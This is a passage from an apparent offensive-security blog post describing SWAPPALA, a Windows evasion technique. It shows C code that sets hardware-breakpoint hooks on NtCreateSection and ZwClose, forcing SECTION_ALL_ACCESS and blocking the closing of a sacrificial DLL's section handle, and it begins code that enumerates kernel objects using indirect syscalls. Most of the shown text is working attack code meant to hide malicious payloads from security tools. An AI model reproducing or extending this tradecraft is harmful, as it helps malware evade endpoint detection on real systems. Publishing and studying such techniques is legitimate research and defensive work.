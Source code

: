 Wow, it is tiring even just thinking about it. Stop ranting let’s see some code. 

## SWAPPALA

Ok so let’s go through what I consider the most interesting parts of my code (full project on [Github](https://github.com/oldboy21/SWAPPALA/tree/main))

### Install HBP on ZwClose and ZwMapViewOfSection

We want to install breakpoint on those function for two reasons: preventing the Section handle of the sacrificial DLL to be closed, and be sure that handle will be forged with SECTION_ALL_ACCESS privileges. We start creating detour functions that do exactly this. These functions are executed once the ZwClose and ZwCreateSection are invoked. 

```c
VOID NtCreateSectionDetour(PCONTEXT pThreadCtx) {

    printf("[i] NtCreateSection Hooked \n");
    //modifying RDX (2nd parameter) before allowing execution
    (ULONG_PTR)pThreadCtx->Rdx = SECTION_ALL_ACCESS;
    //resume execution
    pThreadCtx->EFlags = pThreadCtx->EFlags | (1 << 16);
}

VOID ZwCloseDetour(PCONTEXT pThreadCtx) {

    printf("[i] NtClose Hooked \n");
    //modifying the RIP to a C3 (return instruction) hence blocking the execution of the ZwClose
    pThreadCtx->Rip = (ULONG_PTR)&ucRet;
    //resume execution
    pThreadCtx->EFlags = pThreadCtx->EFlags | (1 << 16);
}

```

Going to keep the blog more clean and short this time, please refer to [Github project](https://github.com/oldboy21/SWAPPALA/tree/main) for the full HBP implementation. 

### Enumerate KernelObjects to find the Section HANDLE of the sacrificial DLL

After my journey of reversing the code of ProcessHacker I got to the conclusion that if you want to know the Section that HANDLE belongs to, you got to map a lot of sections. 

```c
HANDLE FindSectionHandle(PSYSCALL_ENTRY zwFunctions) {

   [LOTS OF VARIABLES HERE]

    if ((STATUS = ZwAllocateVirtualMemory(((HANDLE)(LONG_PTR)-1), &objectTypeInfoTemp, 0, &objectTypeInfoSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE, zwFunctions[ZwAllocateVirtualMemoryF].SSN, zwFunctions[ZwAllocateVirtualMemoryF].sysretAddr)) != 0) {

        return FALSE;
    }
    if ((STATUS = ZwAllocateVirtualMemory(((HANDLE)(LONG_PTR)-1), &objectNameInfo, 0, &objectNameInfoSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE, zwFunctions[ZwAllocateVirtualMemoryF].SSN, zwFunctions[ZwAllocateVirtualMemoryF].sysretAddr)) != 0) {

        return FALSE;
    }
    objectTypeInfo = (POBJECT_TYPE_INFORMATION)objectTypeInfoTemp;

    //to retrieve mapped section information
    SYSTEM_HANDLE handle = { 0x00 };
    DWORD PID = GetProcessId(((HANDLE)(LONG_PTR)-1));
```